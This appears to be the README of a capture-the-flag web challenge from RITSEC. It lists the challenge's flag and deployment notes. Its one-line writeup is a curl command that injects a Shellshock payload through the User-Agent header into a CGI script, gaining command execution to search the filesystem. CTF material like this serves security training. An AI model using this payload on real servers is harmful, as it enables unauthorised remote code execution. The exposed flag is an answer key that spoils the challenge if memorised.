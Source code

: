 # Web 400: What a cute dog!
**Author**: sandw1ch

**Flag**: RITSEC{sh3ll_sh0cked_w0wz3rs}

## Description
This dog is shockingly cute!

## Deployment
Host the Dockerfile!  
*Note: They also get RCE on the container so this may have to be respun up...*

## TL;DR Writeup
`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'grep -r RITSEC /;'" http://localhost:80/cgi-bin/stats`

## Writeup
#TODO